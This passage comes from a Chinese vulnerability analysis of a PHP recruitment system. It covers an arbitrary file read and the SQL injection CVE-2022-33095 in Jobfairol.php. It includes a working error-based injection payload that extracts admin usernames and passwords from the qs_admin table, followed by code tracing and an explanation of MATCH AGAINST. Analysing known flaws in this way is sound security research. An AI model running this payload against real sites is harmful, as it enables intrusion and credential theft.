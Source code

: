因此这里 fopen() 中的 $url 可控且没有安全过滤，简单构造即可读取任意文件。  
![pFsFv28.png](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-3e5bab81c83892ac63a993e496a93417d92d77e4.png)

### v3.5.1 SQL 注入｜Jobfairol.php

漏洞信息：  
[CNVD-2022-61443 - 国家信息安全漏洞共享平台 (cnvd.org.cn)](https://www.cnvd.org.cn/flaw/show/CNVD-2022-61443)  
[CVE - CVE-2022-33095 (mitre.org)](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-33095)

文件路径：v1\_0/controller/home/Jobfairol.php，keyword 参数

Payload：

```rb
/index.php/v1_0/home/jobfairol/resumelist?jobfair_id=1&amp;keyword=' (select/**/updatexml(0,concat(0xa,(select/**/concat(username,password)from/**/qs_admin)),0))))%23
```

![pFsFxxS.png](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-282b65ddf169ac182b2e2b40205de2257bec31ff.png)

#### 代码分析

定位到关键函数 resumelist() ，接收四个参数，其中 $keyword 接收字符串格式，这里输入 sec 作为测试字符进行跟踪。  
![pFskSKg.png](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-ab7208256561ef31abbc85a699473f07265bc36d.png)

一路跟进到 PDO 处理模块中，最终整个构造好的 SQL 语句如下：

```sql
SELECT `b`.`id` FROM `qs_jobfair_online_participate` `a` RIGHT JOIN `qs_resume_search_key` `b` ON `a`.`uid`=`b`.`uid` WHERE  `a`.`jobfair_id` = 1  AND `a`.`utype` = 2  AND `a`.`audit` = 1  AND (  MATCH (`intention_jobs`) AGAINST ('sec' IN BOOLEAN MODE) ) ORDER BY `b`.`refreshtime` DESC LIMIT 0,10 
```

![pFsk9bj.png](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-781a989cc5a8cc972befacbc3f0e21dac74d0c7d.png)

#### MATCH AGAINST 结构

在上面的 SQL 语句中可以注意到 MATCH AGAINST 结构。我们简化这个 SQL 语句进行分析。

```sql
SELECT * FROM qs_resume_search_key WHERE ( MATCH (intention_jobs) AGAINST ('sec' IN BOOLEAN MODE))
```

查询[相关资料](https://mariadb.com/kb/en/match-against/) 后得知 `MATCH AGAINST` 是一种用于在全文索引上执行全文检索的结构，格式如下：

```rb
MATCH (col1,col2,...) AGAINST (expr [search_modifier])
```

- col 表示要搜索的列
- expr 表示检索的关键字
- modifier 表示搜索的模式（可选）  
    其中 intention\_jobs 就是搜索的列，sec 就是待检索的关键字，BOOLEAN 模式表示支持布尔操作符和修饰符。

来到数据库中测试 `expr` 位置是否可插入查询语句，使用报错查询可以成功执行。那么下一步就可以构造可利用的 SQL 语句了。  
![pFseTr8.png](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-ab2e0a19e78c48ed5a4760995629adc70761e86c.png)
